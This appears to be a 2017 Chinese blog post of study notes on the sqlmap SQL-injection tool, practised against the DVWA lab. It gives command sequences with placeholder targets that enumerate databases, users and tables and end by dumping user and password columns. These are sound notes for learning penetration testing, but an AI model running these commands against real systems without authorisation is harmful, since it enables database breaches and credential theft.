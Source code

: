 ```yaml
---
layout: post
title:  "渗透工具之sqlmap"
date:   2017-09-01 09:03:26 +0800
author:     "陈杨"
header-img: "img/post-bg-2015.jpg"
categories: jekyll update
catalog: true
tags:
    - 学习
---
```


> “Yeah It's on. ”


## 渗透工具之sqlmap！

突然发现慕课上有渗透工具sqlmap的使用，花了两天学习，现在讲知识总结下来，以便于以后查阅。

sqlmap是一款非常强大的开源sql自动化注入工具，可以用来检测和利用sql注入漏洞。它由Python语言开发而成，因此运行需要安装python环境。

### 环境
{% highlight ruby %}
python2.7.1.3 + sqlmap + DVWA
{% endhighlight %}

### 检查注入点是否可用
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch
{% endhighlight %}

如果不知道用户不知道是否输入y or n - -batch会自动输入

![Alt text](/img/ArticleImg1/1.PNG)


返回结果是：
{% highlight ruby %}
Apache2.4.9 php5.5.12 DBMS=mysql
{% endhighlight %}

### 暴库
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --dbs
{% endhighlight %}

![Alt text](/img/ArticleImg1/3.PNG)

### 当前数据库
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --current-db
{% endhighlight %}

![Alt text](/img/ArticleImg1/4.PNG)

### 当前账户
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --current-user
{% endhighlight %}

![Alt text](/img/ArticleImg1/5.PNG)

### 列出所有用户
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --users
{% endhighlight %}

![Alt text](/img/ArticleImg1/6.PNG)

### 列出所有账户与密码
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --password
{% endhighlight %}

![Alt text](/img/ArticleImg1/7.PNG)

### 列出当前数据库中的数据表
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch -D test --tables
{% endhighlight %}

![Alt text](/img/ArticleImg1/8.PNG)

### 列出表中的字段
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch -D test -T users --columns
{% endhighlight %}

![Alt text](/img/ArticleImg1/9.PNG)

### 暴出字段的内容
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch -D test -T users -C "user,password" --dump
{% endhighlight %}

dump:将结果导出

ps:如果结果太多，可以使用- -start 1 - -stop 10的方法指出导出数据的数据量


![Alt text](/img/ArticleImg1/10.PNG)





